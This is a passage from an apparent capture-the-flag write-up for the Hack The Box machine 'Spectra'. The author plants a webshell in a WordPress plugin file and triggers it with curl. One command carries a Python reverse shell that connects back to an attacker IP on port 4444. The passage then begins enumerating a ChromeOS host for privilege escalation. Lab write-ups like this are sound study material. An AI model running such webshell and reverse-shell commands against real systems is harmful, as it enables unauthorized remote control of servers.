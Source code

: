 Instead of finding a public exploit, we can actually edit the plugin directly on Wordpress. Using the Plugin Editor, I replaced the PHP code with a webshell. In this case, I replaced the code for `akismet.php`, and it can be triggered using `curl`:

<figure><img src="../../../.gitbook/assets/image (4220).png" alt=""><figcaption></figcaption></figure>

Then, we can easily get a reverse shell:

{% code overflow="wrap" %}
```bash
$ curl -G --data-urlencode "cmd=python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.9\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"bash\")'" http://spectra.htb/main/wp-content/plugins/akismet/akismet.php
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (4221).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Autologin -> Katie Shell

This machine was a ChromeOS machine, as specified from the `home` directory:

```
nginx@spectra /home $ ls -la
total 32
drwxr-xr-x  8 root    root    4096 Feb  2  2021 .
drwxr-xr-x 22 root    root    4096 Feb  2  2021 ..
drwx------  4 root    root    4096 Jul 20  2020 .shadow
drwxr-xr-x 20 chronos chronos 4096 Sep 30 01:34 chronos
drwxr-xr-x  5 katie   katie   4096 Feb  2  2021 katie
drwxr-xr-x  5 nginx   nginx   4096 Feb  4  2021 nginx
drwxr-x--t  4 root    root    4096 Jul 20  2020 root
drwxr-xr-x  4 root    root    4096 Jul 20  2020 user
```

I didn't know a lot about how ChromeOS functioned, but tools like `pspy64` didn't work. Within the `/opt` directory, there were some interesting files:
